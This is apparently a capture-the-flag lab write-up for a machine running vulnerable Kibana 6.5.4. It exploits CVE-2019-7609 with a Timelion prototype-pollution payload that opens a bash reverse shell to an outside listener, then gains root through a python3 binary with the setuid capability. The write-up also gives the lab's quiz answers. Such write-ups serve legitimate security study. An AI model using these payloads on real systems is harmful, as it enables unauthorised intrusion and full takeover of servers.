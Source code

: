 #### 1. Scanning

```
nmap -sV -p- -T4  10.10.36.51                                         130 ⨯
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-23 07:19 EST

Host is up (0.21s latency).
Not shown: 65483 closed ports, 48 filtered ports
PORT     STATE SERVICE      VERSION
22/tcp   open  ssh          OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http         Apache httpd 2.4.18 ((Ubuntu))
5044/tcp open  lxi-evntsvc?
5601/tcp open  esmagent?
```


#### 2. Checking port 80 and website

There is a website on 80 port with a butterfly:

```
		     ,+++77777++=:,                    +=                      ,,++=7++=,,
		    7~?7   +7I77 :,I777  I          77 7+77 7:        ,?777777??~,=+=~I7?,=77 I
		=7I7I~7  ,77: ++:~+777777 7     +77=7 =7I7     ,I777= 77,:~7 +?7, ~7   ~ 777?
		77+7I 777~,,=7~  ,::7=7: 7 77   77: 7 7 +77,7 I777~+777I=   =:,77,77  77 7,777,
		  = 7  ?7 , 7~,~  + 77 ?: :?777 +~77 77? I7777I7I7 777+77   =:, ?7   +7 777?
		      77 ~I == ~77=77777~: I,+77?  7  7:?7? ?7 7 7 77 ~I   7I,,?7 I77~
		       I 7=77~+77+?=:I+~77?     , I 7? 77 7   777~ +7 I+?7  +7~?777,77I
		         =77 77= +7 7777         ,7 7?7:,??7     +7    7   77??+ 7777,
		             =I, I 7+:77?         +7I7?7777 :             :7 7
		                7I7I?77 ~         +7:77,     ~         +7,::7   7
		               ,7~77?7? ?:         7+:77           77 :7777=
		                ?77 +I7+,7         7~  7,+7  ,?       ?7?~?777:
		                   I777=7777 ~     77 :  77 =7+,    I77  777
		                     +      ~?     , + 7    ,, ~I,  = ? ,
		                                    77:I+
		                                    ,7
		                                     :777
		                                        :
				Welcome, "linux capabilities" is very interesting.
```
It tells me nothing at the moment but for sure is a clue to further steps.

I noticed Kibana running on port 5601. 



#### 3.  What is the vulnerability that is specific to programming languages with prototype-based inheritance? 

`prototype pollution`

After googling I found out that it is related with kibana, so we are at home.



#### 4. What is the version of visualization dashboard installed in the server?

I accessed machine on port 5601, select `Management` section and read it's version which is `6.5.4`

6.5.4



#### 5. What is the CVE number for this vulnerability? This will be in the format: CVE-0000-0000

I found it by only typing prototype pollution and it is `CVE-2019-7609`

In a shortcut - we can inject a payload (reverse shell) in Timelion, run it and open Canvas to get shell.

I found a useful website here:

`https://github.com/mpgn/CVE-2019-7609`

First things first as always - we run netcat `sudo nc -lvnp 4444`

We need to type in a payload in Timelion, then run it and click on Canvas section on the left and we should get shell:

```
.es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.6.46.150/4444 0>&1\'");//')
.props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')
````

and I am inside:

```
kiba@ubuntu:/home/kiba/kibana/bin$ whoami
whoami
kiba
kiba@ubuntu:/home/kiba/kibana/bin$ 
```


#### 6. Compromise the machine and locate user.txt

I read user's flag which is in `kiba`'s home:

```
kiba@ubuntu:/home/kiba$ ls -al
ls -al
total 111064
drwxr-xr-x  6 kiba kiba      4096 Jan 22 11:10 .
drwxr-xr-x  3 root root      4096 Mar 31  2020 ..
-rw-rw-r--  1 kiba kiba    407592 Jan 22 11:10 .babel.json
-rw-------  1 kiba kiba      9605 Mar 31  2020 .bash_history
-rw-r--r--  1 kiba kiba       220 Mar 31  2020 .bash_logout
-rw-r--r--  1 kiba kiba      3771 Mar 31  2020 .bashrc
drwx------  2 kiba kiba      4096 Mar 31  2020 .cache
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .hackmeplease
drwxrwxr-x  2 kiba kiba      4096 Mar 31  2020 .nano
-rw-r--r--  1 kiba kiba       655 Mar 31  2020 .profile
-rw-r--r--  1 kiba kiba         0 Mar 31  2020 .sudo_as_admin_successful
-rw-r--r--  1 root root       176 Mar 31  2020 .wget-hsts
-rw-rw-r--  1 kiba kiba 113259798 Dec 19  2018 elasticsearch-6.5.4.deb
drwxrwxr-x 11 kiba kiba      4096 Dec 17  2018 kibana
-rw-rw-r--  1 kiba kiba        35 Mar 31  2020 user.txt
kiba@ubuntu:/home/kiba$ cat user.txt
cat user.txt
THM{1s_****************rce}
```



#### 7. How would you recursively list all of these capabilities?

We need to escalate privleges to root using linux capabilities.

In order to list all files with this attribute we type:

`getcap -r / 2>/dev/null`

`2>/dev/null` ---> discards all error messages.



#### 8. Escalate privileges and obtain root.txt

We get a list of binaries:

```
kiba@ubuntu:/home/kiba/kibana/bin$ getcap -r / 2>/dev/null 
getcap -r / 2>/dev/null
/home/kiba/.hackmeplease/python3 = cap_setuid+ep
/usr/bin/mtr = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/systemd-detect-virt = cap_dac_override,cap_sys_ptrace+ep
```

there is a weird one called:

`/home/kiba/.hackmeplease/python3 = cap_setuid+ep`

It seems like custom python installation. In this case, according to GTFO Bins, it is possible to become root like this:

```
$ /home/kiba/.hackmeplease/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'

<please/python3 -c 'import os; os.setuid(0); os.system("/bin/bash")'         
id
uid=0(root) gid=1000(kiba) groups=1000(kiba),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),114(lpadmin),115(sambashare)
```

It is possible to read root flag:

```
 cat /root/root.txt
cat /root/root.txt
THM{pr******************s}
```